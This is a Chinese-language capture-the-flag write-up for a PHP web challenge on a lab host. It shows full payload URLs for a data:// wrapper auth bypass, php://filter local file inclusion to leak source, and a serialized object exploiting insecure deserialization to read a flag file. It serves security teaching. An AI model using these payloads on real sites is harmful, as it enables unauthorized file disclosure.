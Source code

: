 # 04.you are not admin

1. 浏览器查看页面源代码：

   ```php
   you are not admin !
   <!--
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        include($file); //class.php
    }else{
        echo "you are not admin ! ";
    }
   -->
   ```

2. 源代码提示，只要 `$user` 参数合理设置，可触发 `include($file); //class.php` 。构造 payload ：

   > user=data:text/plain,the user is admin

   即访问 URL ：

   > http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin

   可观察到页面输出已变为：_hello admin!_ ，说明可成功触发 `include($file);` 。

3. 根据源代码的提示，似乎 `$file` 参数应设置为 `class.php` 。尝试构造 payload ：`file=class.php` ，执行后页面输出不变。尝试读取 `class.php` 文件的内容，构造 payload ：

   > file=php://filter/convert.base64-encode/resource=class.php

   即访问 URL ：

   > http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=php://filter/convert.base64-encode/resource=class.php

   执行结果中 `class.php` 文件内容经 base64解码后为：

   ```php
   <?php
    class Read{//f1a9.php
        public $file;
        public function __toString(){
            if(isset($this->file)){
                echo file_get_contents($this->file);
            }
            return "__toString was called!";
        }
    }
   ?>
   ```

4. 根据上述源代码提示，可能存在文件 `f1a9.php` ，尝试构造 payload ：`file=f1a9.php` ，执行后页面没输出有价值信息。尝试读取 `f1a9.php` 文件的内容，构造 payload ：`file=php://filter/convert.base64-encode/resource=f1a9.php` ，执行后页面也没输出有价值信息。

5. 考虑先读取 `index.php` 文件的内容，构造 payload ：

   > file=php://filter/convert.base64-encode/resource=index.php

   即访问 URL ：

   > http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=php://filter/convert.base64-encode/resource=index.php

   执行结果中 `index.php` 文件内容经base64解码后为：

   ```php
   <?php
    error_reporting(0);
    $user = $_GET["user"];
    $file = $_GET["file"];
    $pass = $_GET["pass"];

    if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
        echo "hello admin!<br>";
        if(preg_match("/f1a9/",$file)){
            exit();
        }else{
            include($file); //class.php
            $pass = unserialize($pass);
            echo $pass;
        }
    }else{
        echo "you are not admin ! ";
    }
   ?>
   ```

6. 从上述源代码可见，只要检测到 `$file` 参数包含字符串“f1a9”，程序就直接退出了。但是，如果 `$file` 参数设置为 `class.php` ，则 `class.php` 中的代码会被执行，其中的 `__toString()` 方法会通过 `echo file_get_contents($this->file);` 进行显示输出，同时 `index.php` 包含代码对参数 `$pass` 进行反序列化并显示输出，可见，只要对参数 `$pass` 的内容进行合理构造，利用其被显示输出时触发 `class.php` 中的 `__toString()` 被执行，即可显示输出我们需要的内容。

7. 根据 `class.php` 中的源代码，构造 `class Read` 的一个实例 `$r`，令 `$r.file = "f1a9.php"` , 把 `$r` 序列化，即可作为 `$pass` 参数的值以构造 payload 。为此，在php运行环境中执行以下代码：

   ```php
   class Read{//f1a9.php
        public $file = "f1a9.php";
        public function __toString(){
            if(isset($this->file)){
                echo file_get_contents($this->file);
            }
            return "__toString was called!";
        }
    }
    $r = new Read();
    echo serialize($r);
   ```

    得到 `$r` 序列化后的值：

    > O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

    作为 payload 中 `$pass` 参数的值。

8. 最终构造的 payload 为：

   > user=data:text/plain,the user is admin  
   > file=class.php  
   > pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

    即访问 URL ：

    > http://192.168.1.1:8083/ctf/12/index.php?user=data:text/plain,the%20user%20is%20admin&file=class.php&pass=O:4:%22Read%22:1:{s:4:%22file%22;s:8:%22f1a9.php%22;}

    执行后查看页面源代码即得答案。
